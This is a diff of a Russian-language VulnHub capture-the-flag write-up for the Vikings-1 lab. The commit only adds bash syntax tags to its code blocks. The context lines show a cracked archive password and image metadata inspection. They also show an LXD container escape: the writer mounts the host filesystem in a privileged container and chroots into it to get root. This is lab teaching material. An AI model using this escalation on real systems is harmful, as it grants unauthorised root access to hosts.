

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: Vikings-1/writeup.md, 3 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/Vikings-1/writeup.md
+++ b/Vikings-1/writeup.md
@@ -141,14 +141,14 @@ a.zip/king:ragnarok123:king:a.zip:a.zip
 ```
 
 Распакованный файл оказался изображением
-```
+```bash
 ┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
 └─$ file king
 king: JPEG image data, Exif standard: [TIFF image data, big-endian, direntries=14, height=4000, bps=0, PhotometricInterpretation=RGB, description=Viking ships on the water under the sunlight and dark storm. Invasion in the storm. 3D illustration.; Shutterstock ID 100901071, orientation=upper-left, width=6000], baseline, precision 8, 1600x1067, components 3
 ```
 
 Смотрю мета даные
-```
+```bash
 ┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Vikings-1/exploits]
 └─$ exiftool king
 ExifTool Version Number         : 12.76
@@ -339,14 +339,14 @@ linpeas.sh
 ## ⚙️ Привилегии
 
 Проверяю и настраиваю окружение
-```
+```bash
 floki@vikings:/tmp$ which lxd && which lxc
 /usr/bin/lxd
 /usr/bin/lxc
 ```
 
 При инициализации выбираю `none` для `IPv6`, остальное по умолчанию (`enter`)
-```
+```bash
 floki@vikings:/tmp$ lxd init
 Would you like to use LXD clustering? (yes/no) [default=no]:
 Do you want to configure a new storage pool? (yes/no) [default=yes]:
@@ -401,13 +401,13 @@ alpine-v3.13-x86_64-20210218_0139.tar.gz
 ```
 
 Импортирую образ
-```
+```bash
 floki@vikings:/tmp$ lxc image import ./alpine*.tar.gz --alias alpine
 Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
 ```
 
 Создаю и запускаю привилегированный контейнер
-```
+```bash
 floki@vikings:/tmp$ lxc init alpine privesc -c security.privileged=true
 Creating privesc
 floki@vikings:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
@@ -419,14 +419,14 @@ uid=0(root) gid=0(root)
 ```
 
 Далее получаю root на хосте
-```
+```bash
 ~ # chroot /mnt/root bash
 root@privesc:/# id
 uid=0(root) gid=0(root) groups=0(root)
 ```
 
 Читаю флаги
-```
+```bash
 root@privesc:/# cd /root
 root@privesc:~# ls -la
 total 48
````
Also changed, not shown: other parts of Vikings-1/writeup.md (+9 -9 lines).
